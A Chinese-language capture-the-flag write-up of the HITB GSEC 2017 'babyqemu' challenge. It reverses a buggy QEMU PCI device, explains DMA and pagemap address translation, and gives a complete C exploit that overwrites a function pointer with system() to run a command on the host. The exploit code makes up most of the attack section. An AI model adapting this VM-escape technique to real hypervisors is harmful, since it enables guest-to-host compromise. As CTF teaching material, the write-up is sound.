





# Hitb Gsec 2017 babyqemu Writeup

## 前置知识

**DMA机制（Direct Memory Access）：直接内存访问**

有两种方式引发数据传输：

1. 第一种情况：软件对数据的请求
   - 当进程调用read，驱动程序函数分配一个DMA缓冲区，并让硬件将数据传输到这个缓冲区中。进程处于睡眠状态
   - 硬件将数据写入到DMA缓冲区中，当写入完毕，产生一个中断
   - 中断处理程序获取输入的数据，应答中断，并唤起进程，该进程现在即可读取数据
2. 第二种情况：在异步使用DMA时
   - 硬件产生中断，宣告新数据的到来
   - 中断处理程序分配一个缓冲区，并且告诉硬件向哪里传输数据
   - 外围设备将数据写入数据区，完成后，产生另外一个中断
   - 处理程序分发新数据，唤醒任何相关进程，然后执行清理工作

DMA控制器必须有以下功能：

  　　1. 能向CPU发出系统保持（HOLD）信号，提出总线接管请求；
    　　2. 当CPU发出允许接管信号后，负责对总线的控制，进入DMA方式；
      　　3. 能对存储器寻址及能修改地址指针，实现对内存的读写操作；
        　　4. 能决定本次DMA传送的字节数，判断DMA传送是否结束
          　　5. 发出DMA结束信号，使CPU恢复正常工作状态。

**注意：当虚拟机通过DMA （Direct Memory Access）访问大块I/O时，QEMU 模拟程序将不会把结果放进共享页中，而是通过内存映射的方式将结果直接写到虚拟机的内存中，然后通知KVM模块告诉客户机DMA操作已经完成。**

------

**通过pagemap将虚拟机中的虚拟地址转换为物理地址**

根据内核文档可知，每个虚拟页在 /proc/pid/pagemap 中对应一项长度为 64 bits 的数据，其中 Bit 63 为 page present，表示物理内存页是否已存在；若物理页已存在，则 Bits 0-54 表示物理页号。此外，需要 root 权限的进程才能读取 /proc/pid/pagemap 中的内容。

```
pagemap is a new (as of 2.6.25) set of interfaces in the kernel that allow
userspace programs to examine the page tables and related information by
reading files in /proc.

There are four components to pagemap:

*/proc/pid/pagemap. This file lets a userspace process find out which
physical frame each virtual page is mapped to. It contains one 64-bit
value for each virtual page, containing the following data (from
fs/proc/task_mmu.c, above pagemap_read):

* Bits 0-54 page frame number (PFN) if present
* Bits 0-4 swap type if swapped
* Bits 5-54 swap offset if swapped
* Bit 55 pte is soft-dirty (see Documentation/vm/soft-dirty.txt)
* Bit 56 page exclusively mapped (since 4.2)
* Bits 57-60 zero
* Bit 61 page is file-page or shared-anon (since 3.5)
* Bit 62 page swapped
* Bit 63 page present

Since Linux 4.0 only users with the CAP_SYS_ADMIN capability can get PFNs.
In 4.0 and 4.1 opens by unprivileged fail with -EPERM. Starting from
4.2 the PFN field is zeroed if the user does not have CAP_SYS_ADMIN.
Reason: information about PFNs helps in exploiting Rowhammer vulnerability.
```

根据以上信息，利用 /proc/pid/pagemap 可将虚拟地址转换为物理地址，具体步骤如下：

1. 计算虚拟地址所在虚拟页对应的数据项在 /proc/pid/pagmap 中的偏移，offset = (viraddr / pagesize) * sizeof(uint64_t)
2. 读取长度为 64 bits 的数据项；
3. 根据 Bit 63 判断物理内存页是否存在；
4. 若物理内存页已存在，则取 bits 0 - 54 作为物理页号；
5. 计算出物理页起始地址加上页内偏移即得到物理地址，phyaddr = pageframenum * pagesize + viraddr % pagesize;

对应代码实现如下：

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/io.h>   
#include <stdint.h>

size_t va2pa(void *addr){
	uint64_t data;

	int fd = open("/proc/self/pagemap",O_RDONLY);
	if(!fd){
		perror("open pagemap");
        return 0;
	}

	size_t pagesize = getpagesize();
	size_t offset = ((uintptr_t)addr / pagesize) * sizeof(uint64_t);

	if(lseek(fd,offset,SEEK_SET) < 0){
		puts("lseek");
		close(fd);
		return 0;
	}

	if(read(fd,&data,8) != 8){
		puts("read");
		close(fd);
		return 0;
	}

	if(!(data & (((uint64_t)1 << 63)))){
		puts("page");
		close(fd);
		return 0;
	}

	size_t pageframenum = data & ((1ull << 55) - 1);
	size_t phyaddr = pageframenum * pagesize + (uintptr_t)addr % pagesize;

	close(fd);

	return phyaddr;
}

int main(){
	char *userbuf;
	uint64_t userbuf_pa;
	unsigned char* mmio_mem;
	
	int mmio_fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1){
        perror("open mmio");
        exit(-1);
    }

    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED){
    	perror("mmap mmio");
        exit(-1);
    }

    printf("mmio_mem:\t%p\n", mmio_mem);

    userbuf = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
    if (userbuf == MAP_FAILED){
    	perror("mmap userbuf");
        exit(-1);
    }

	strcpy(usebuf,"test");

    mlock(userbuf, 0x1000);
    userbuf_pa = va2pa(userbuf);

    printf("userbuf_va:\t%p\n",userbuf);
    printf("userbuf_pa:\t%p\n",(void *)userbuf_pa);
}
```

效果图：





## 题目分析

还是首先从启动命令来下手

```
./qemu-system-x86_64 \
-initrd ./rootfs.cpio \
-kernel ./vmlinuz-4.8.0-52-generic \
-append 'console=ttyS0 root=/dev/ram oops=panic panic=1' \
-enable-kvm \
-monitor /dev/null \
-m 1G --nographic  -L ./dependency/usr/local/share/qemu \
-L pc-bios \
-device hitb,id=vda
```

可以看到它启动了一个hitb设备，很明显这个就是有问题的设备了，然后我们对应可以在ida中找到这个设备的相关函数和结构体



然后看一下hitb_class_init函数，代码如下：

```
void __fastcall hitb_class_init(ObjectClass_0 *a1, void *data)
{
  ObjectClass_0 *v2; // rax

  v2 = object_class_dynamic_cast_assert(
         a1,
         "pci-device",
         "/mnt/hgfs/eadom/workspcae/projects/hitbctf2017/babyqemu/qemu/hw/misc/hitb.c",
         469,
         "hitb_class_init");
  BYTE4(v2[2].object_cast_cache[3]) = 0x10;
  HIWORD(v2[2].object_cast_cache[3]) = 0xFF;
  v2[2].type = pci_hitb_realize;
  v2[2].object_cast_cache[0] = pci_hitb_uninit;
  LOWORD(v2[2].object_cast_cache[3]) = 0x1234;
  WORD1(v2[2].object_cast_cache[3]) = 0x2333;
}
```

对应的我们再使用一下lspci命令可以得到下面的内容：

```
# lspci -k
00:00.0 Class 0600: 8086:1237
00:01.3 Class 0680: 8086:7113
00:03.0 Class 0200: 8086:100e e1000
00:01.1 Class 0101: 8086:7010 ata_piix
00:02.0 Class 0300: 1234:1111
00:01.0 Class 0601: 8086:7000
00:04.0 Class 00ff: 1234:2333
```

可以看到00:04.0 Class 00ff: 1234:2333对应的就是我们的hitb设备，对应的起始和结束地址如下：

```
# cat /sys/devices/pci0000\:00/0000\:00\:04.0/resource
0x00000000fea00000 0x00000000feafffff 0x0000000000040200
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
```

然后我们来分析以下pci_hitb_realize函数，这个函数：

```
void __fastcall pci_hitb_realize(PCIDevice_0 *pdev, Error_0 **errp)
{
  pdev->config[61] = 1;
  if ( !msi_init(pdev, 0, 1u, 1, 0, errp) )
  {
    timer_init_tl(&pdev[1].io_regions[4], main_loop_tlg.tl[1], 1000000, hitb_dma_timer, pdev);
    qemu_mutex_init(&pdev[1].io_regions[0].type);
    qemu_cond_init(&pdev[1].io_regions[1].type);
    qemu_thread_create(&pdev[1].io_regions[0].size, "hitb", hitb_fact_thread, pdev, 0);
    memory_region_init_io(&pdev[1], &pdev->qdev.parent_obj, &hitb_mmio_ops, pdev, "hitb-mmio", 0x100000uLL);
    pci_register_bar(pdev, 0, 0, &pdev[1]);
  }
}
```

函数首先注册了一个timer，处理回调函数为`hitb_dma_timer`，接着注册了`hitb_mmio_ops`内存操作的结构体，该结构体中包含`hitb_mmio_read`以及`hitb_mmio_write`，同时也看到了`size`大小为`0x100000`。

然后来分析一下hitb_mmio_write函数，函数代码如下：

```
void __fastcall hitb_mmio_write(HitbState *opaque, hwaddr addr, uint64_t val, unsigned int size)
{
  uint32_t v4; // er13
  int v5; // edx
  bool v6; // zf
  int64_t v7; // rax

  if ( (addr > 0x7F || size == 4) && (!((size - 4) & 0xFFFFFFFB) || addr <= 0x7F) )
  {
    if ( addr == 0x80 )
    {
      if ( !(opaque->dma.cmd & 1) )             // addr=0x80 and dma.cmd=0 -----> dma.src=val
        opaque->dma.src = val;
    }
    else
    {
      v4 = val;
      if ( addr > 0x80 )
      {
        if ( addr == 0x8C )
        {
          if ( !(opaque->dma.cmd & 1) )         // addr=0x8c and dma.cmd=0 -----> *(dma.dst+4)=val  (dma.dst-> 8 bytes)
            *(&opaque->dma.dst + 4) = val;
        }
        else if ( addr > 0x8C )
        {
          if ( addr == 0x90 )                   // addr=0x90 and dma.cmd=0 -----> dma.cnt=val
          {
            if ( !(opaque->dma.cmd & 1) )
              opaque->dma.cnt = val;
          }
          else if ( addr == 0x98 && val & 1 && !(opaque->dma.cmd & 1) )
          {                                     // addr=0x98 and val=1 and dma.cmd=0
                                                //     ↓
                                                // dma.cmd=val -----> dma.cmd=1|3|5|7|9|11|13|15
                                                //  
            opaque->dma.cmd = val;
            v7 = qemu_clock_get_ns(QEMU_CLOCK_VIRTUAL_0);
            timer_mod(&opaque->dma_timer, v7 / 1000000 + 100);
          }
        }
        else if ( addr == 0x84 )
        {                                       // addr=0x84 and dma.cmd=0 -----> *(dma.src+4)=val
          if ( !(opaque->dma.cmd & 1) )
            *(&opaque->dma.src + 4) = val;
        }
        else if ( addr == 0x88 && !(opaque->dma.cmd & 1) )// addr=0x88 and dma.cmd=0 -----> dma.dst=val
        {
          opaque->dma.dst = val;
        }
      }
      else if ( addr == 0x20 )
      {
        if ( val & 0x80 )
          _InterlockedOr(&opaque->status, 0x80u);
        else
          _InterlockedAnd(&opaque->status, 0xFFFFFF7F);
      }
      else if ( addr > 0x20 )
      {
        if ( addr == 0x60 )
        {
          v6 = (val | opaque->irq_status) == 0;
          opaque->irq_status |= val;
          if ( !v6 )
            hitb_raise_irq(opaque, 0x60u);
        }
        else if ( addr == 0x64 )
        {
          v5 = ~val;
          v6 = (v5 & opaque->irq_status) == 0;
          opaque->irq_status &= v5;
          if ( v6 && !msi_enabled(&opaque->pdev) )
            pci_set_irq(&opaque->pdev, 0);
        }
      }
      else if ( addr == 4 )
      {
        opaque->addr4 = ~val;
      }
      else if ( addr == 8 && !(opaque->status & 1) )
      {
        qemu_mutex_lock(&opaque->thr_mutex);
        opaque->fact = v4;
        _InterlockedOr(&opaque->status, 1u);
        qemu_cond_signal(&opaque->thr_cond);
        qemu_mutex_unlock(&opaque->thr_mutex);
      }
    }
  }
}
```

对应就是以下几种情况：

1. addr=0x80 and dma.cmd=0 -----> dma.src=val
2. addr=0x84 and dma.cmd=0 -----> *(dma.src+4)=val
3. addr=0x88 and dma.cmd=0 -----> dma.dst=val
4. addr=0x8c and dma.cmd=0 -----> *(dma.dst+4)=val
5. addr=0x90 and dma.cmd=0 -----> dma.cnt=val 
6. addr=0x98 and dma.cmd=0 -----> dma.cmd=1|3|5|7|9|11|13|15

现再分析一下hitb_dma_timer函数，函数代码如下：

```
void __fastcall hitb_dma_timer(HitbState *opaque)
{
  dma_addr_t cmd; // rax
  __int64 index; // rdx
  uint8_t *v3; // rsi
  dma_addr_t v4; // rax
  dma_addr_t v5; // rdx
  uint8_t *v6; // rbp
  char *v7; // rbp

  cmd = opaque->dma.cmd;
  if ( cmd & 1 )                                // 1|3|5|7|9|11|13|15
  {
    if ( cmd & 2 )                              // 3|7|11|15
    {
      index = (LODWORD(opaque->dma.src) - 0x40000);
      if ( cmd & 4 )                            // 7|15
      {
        v7 = &opaque->dma_buf[index];
        opaque->enc(v7, opaque->dma.cnt);
        v3 = v7;
      }
      else                                      // 3|11
      {
        v3 = &opaque->dma_buf[index];
      }
      cpu_physical_memory_rw(opaque->dma.dst, v3, opaque->dma.cnt, 1);// 参数最后为1代表read
      v4 = opaque->dma.cmd;
      v5 = opaque->dma.cmd & 4;
    }
    else                                        // 1|5|9|13
    {
      v6 = &opaque[0xFFFFFFDBLL].dma_buf[opaque->dma.dst + 0x510];
      LODWORD(v3) = opaque + opaque->dma.dst - 0x40000 + 3000;
      cpu_physical_memory_rw(opaque->dma.src, v6, opaque->dma.cnt, 0);// 参数最后为0代表write
      v4 = opaque->dma.cmd;
      v5 = opaque->dma.cmd & 4;
      if ( opaque->dma.cmd & 4 )                // 5|13
      {
        v3 = LODWORD(opaque->dma.cnt);
        (opaque->enc)(v6, v3, v5);
        v4 = opaque->dma.cmd;
        v5 = opaque->dma.cmd & 4;
      }
    }
    opaque->dma.cmd = v4 & 0xFFFFFFFFFFFFFFFELL;
    if ( v5 )                                   // 5|7|13|15
    {
      opaque->irq_status |= 0x100u;
      hitb_raise_irq(opaque, v3);
    }
  }
}
```

对应3种情况：

1. cmd=3|11，以src-0x40000为数组下标，然后复制dma_buf[src-0x40000]中cnt长度的内容存储到dst指向的内存中
2. cmd=7|15，以src-0x40000为数组下标，然后复制dma_buf[src-0x40000]中cnt长度的内容经过enc加密之后存储到dst指向的内存中
3. cmd=1|5|9|13，以dst-0x40000为数组下标，然后复制src中cnt长度的内容到dma_buf[dst-0x40000]指向的内存中

**利用方法**

这里很容易就能看出漏洞点，我们可以控制buf的下标，然后enc是在buf后面的，所以说我们可以越界访问enc，所以先通过enc泄露出基址，然后通过基址寻找到system然后再通过这个洞把enc的地址修改为system的地址，然后把cat /root/flag写入到buf数组特定的位置里面(你自己指定的位置)，从而实现enc(buf，cnt)的功能为system("cat /root/flag")

主要的攻击步骤就是四步：

1. 第一步让dst指向dma_buf然后，dma.src赋值0x41000，dma.cnt赋值8，dma.cmd赋值3，这时候dma_buf里面就存储了enc函数的地址，然后动调计算enc函数地址与基址的偏移，从而泄露出基址，同时也可以得到system函数的plt表地址，所以也就可以泄露出system函数的地址
2. 第二步修改enc函数为system，首先把system函数的地址存进userbuf中，然后让dma.src指向这个地址，dma.dst赋值0x41000，dma.cnt赋值8，dma.cmd赋值1，这时就已经把enc的地址修改为了system函数的地址
3. 第三步把"cat /root/flag"存进buf中，和上面差不多，只不过这回首先把"cat /root/flag"的地址存进userbuf中，然后让dma.src指向这个地址，dma.dst赋值0x40100，然后dma.cnd的值为"cat /root/flag"字符串的长度，dma.cmd赋值1，这是"cat /root/flag"就已经存进到buf中偏移为0x100的位置了
4. 第四步调用enc函数，然后指向buf到buf[0x100]，dma.cnt赋值为0，dma.cmd赋值为7，然后就会调用enc函数了，但是这是enc(buf)执行的功能就是system("cat /root/flag")了

**调试方法**

这道题的环境提供的命令很少，apt，ssh命令都没有，所以我们要是想把exp传上去，就需要使用别的办法，因为这是使用`cpio`作为文件系统的，所以可以先将该文件系统解压，然后将exp放入其中，最后再启动虚拟机。

对应我的环境首先使用`cpio -idmv < XXX.cpio`命令可以把文件系统中的内容解压出来，然后把exp.c和exp还有makefile放到解压出来的文件夹中，如下图所示：



然后对应的makefile中的内容如下：

```
ALL:
	gcc -O0 -static -o exp exp-resery.c
	find . | cpio -o --format=newc > ../rootfs.cpio
```

第一条就是编译exp，第二条是打包命令他会把当前文件下的所有内容，打包成rootfs.cpio，然后就可以作为文件系统供qemu使用

然后对应使用start.sh脚本，就可以使用gdb进行调试了，脚本代码如下：

```
#! /bin/sh
gdb --args ./qemu-system-x86_64 \
-initrd ./rootfs.cpio \
-kernel ./vmlinuz-4.8.0-52-generic \
-append 'console=ttyS0 root=/dev/ram oops=panic panic=1' \
-enable-kvm \
-monitor /dev/null \
-m 1G --nographic  -L ./dependency/usr/local/share/qemu \
-L pc-bios \
-device hitb,id=vda
```

**exp代码：**

```
/*
* @Author: resery
* @Date:   2020-10-07 17:29:48
* @Last Modified by:   resery
* @Last Modified time: 2020-10-08 10:16:58
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/io.h>   
#include <stdint.h>

#define DMABASE 0x40000
char *userbuf;
uint64_t userbuf_pa;
unsigned char* mmio_mem;

void mmio_write(uint32_t addr, uint32_t value)
{
    *((uint32_t*)(mmio_mem + addr)) = value;
}

uint32_t mmio_read(uint32_t addr)
{
    return *((uint32_t*)(mmio_mem + addr));
}

size_t va2pa(void *addr){
	uint64_t data;

	int fd = open("/proc/self/pagemap",O_RDONLY);
	if(!fd){
		perror("open pagemap");
        return 0;
	}

	size_t pagesize = getpagesize();
	size_t offset = ((uintptr_t)addr / pagesize) * sizeof(uint64_t);

	if(lseek(fd,offset,SEEK_SET) < 0){
		puts("lseek");
		close(fd);
		return 0;
	}

	if(read(fd,&data,8) != 8){
		puts("read");
		close(fd);
		return 0;
	}

	if(!(data & (((uint64_t)1 << 63)))){
		puts("page");
		close(fd);
		return 0;
	}

	size_t pageframenum = data & ((1ull << 55) - 1);
	size_t phyaddr = pageframenum * pagesize + (uintptr_t)addr % pagesize;

	close(fd);

	return phyaddr;
}

void write_src(uint32_t src){
	mmio_write(0x80,src);
}

void write_dst(uint32_t dst){
	mmio_write(0x88,dst);
}

void write_cnt(uint32_t cnt){
	mmio_write(0x90,cnt);
}

void write_cmd(uint32_t cmd){
	mmio_write(0x98,cmd);
}

void read_enc_addr(){
	write_dst(userbuf_pa);
	write_src(0x41000);
	write_cnt(8);
	write_cmd(3);
	sleep(1);
}

void write_system_addr(void *buf, size_t len){
    assert(len<0x1000);

    memcpy(userbuf,buf,len);

    write_dst(0x41000);
	write_src(userbuf_pa);
    write_cnt(len);
    write_cmd(1);

    sleep(1);
}

void write_cat_addr(void *buf,size_t len){
	assert(len<0x1000);

    memcpy(userbuf,buf,len);

    write_dst(0x40100);
	write_src(userbuf_pa);
    write_cnt(len);
    write_cmd(1);

    sleep(1);
}

void enc(){
	write_src(0x40100);
	write_cnt(0);
	write_cmd(7);
}

int main(){

	int mmio_fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1){
        perror("open mmio");
        exit(-1);
    }

    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED){
    	perror("mmap mmio");
        exit(-1);
    }

    printf("mmio_mem:\t%p\n", mmio_mem);

    userbuf = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
    if (userbuf == MAP_FAILED){
    	perror("mmap userbuf");
        exit(-1);
    }

    mlock(userbuf, 0x1000);
    userbuf_pa = va2pa(userbuf);

    printf("userbuf_va:\t%p\n",userbuf);
    printf("userbuf_pa:\t%p\n",(void *)userbuf_pa);

    read_enc_addr();

    uint64_t leak_enc=*(uint64_t*)userbuf;
    printf("enc_addr:\t%p\n",(void*)leak_enc);

    uint64_t libc_base = leak_enc - 0x283dd0;
    printf("libc_base:\t%p\n",(void*)libc_base);

    uint64_t system_addr = libc_base + 0x1FDB18;
    printf("system_addr:\t%p\n",(void*)system_addr);

    write_system_addr(&system_addr,8);

    char *cat_flag = "cat /root/flag\x00";
    write_cat_addr(cat_flag,strlen(cat_flag));
    enc();
}
```

**成功截图：**

